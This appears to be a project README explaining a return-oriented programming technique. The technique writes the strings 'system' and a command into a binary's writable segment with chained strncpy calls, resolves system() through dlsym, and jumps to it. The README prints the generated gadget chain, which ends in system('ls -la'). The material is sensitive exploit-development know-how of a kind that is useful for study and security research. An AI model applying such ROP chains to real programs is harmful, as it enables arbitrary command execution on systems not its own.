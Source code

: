 What it do?

1. First finds the address of a readable character for each character in the string "system\x00" and our desired command + "\x00" to be run by `system()`.

2. Next a `writeable_segment_addr` in the binary address ranges is searched for to be able to write `x` amount of characters to via `strncpy()`, (commonly the `bss` section is used) where `x == len("system\x00"+command+"\x00")`

3. `system_chunks` character addresses are then written to the `writeable_segment_addr` using `strncpy()`, incrementing the `writeable_segment_addr` - `char_pointer` counter value each time a character is written.

4. `command_chunks` character addresses are then written to (`writeable_segment_addr + len("system\x00") + addr_size)`

4. `dlsym()` in the binary PLT entry table is then called with the target symbol being the original `writeable_segment_addr` which should be pointing to `>  "system\0"`

5. The result of the call to `dlsym()` now should be a pointer to the `system()` function. This pointer is returned in EAX and jumped to with a `jmp eax` gadget with its argument register (EBP) set to (`writeable_segment_addr` + len("system\x00") + addr_size) which should be pointing to `> "ls -la\0"`

Produced gadgets:

```
Writing "system\0":
0x0000:        strncpy strncpy(134594588, 134512899, 1)
0x0004:        0x805212e <adjust: pop esi; pop edi; pop ebp; ret>
0x0008:        0x805c01c arg0
0x000c:        0x8048103 arg1
0x0010:              0x1 arg2

<snip>

Writing "ls -la\0":
0x008c:        strncpy strncpy(134594604, 134512885, 1)
0x0090:        0x805212e <adjust: pop esi; pop edi; pop ebp; ret>
0x0094:        0x805c02c arg0
0x0098:        0x80480f5 arg1
0x009c:              0x1 arg2

<snip>

Calling dlsym() & jmp_eax():
0x0118:        dlsym dlsym(0, 134594588)
0x011c:        0x804ffd9 <adjust: pop ebx; pop ebp; ret>
0x0120:              0x0 arg0
0x0124:        0x805c01c arg1
0x0128:        jmp_eax jmp_eax(134594604)
0x012c:          b'zaad' <pad>
0x0130:        0x805c02c arg0


Result:        system("ls -la")
```

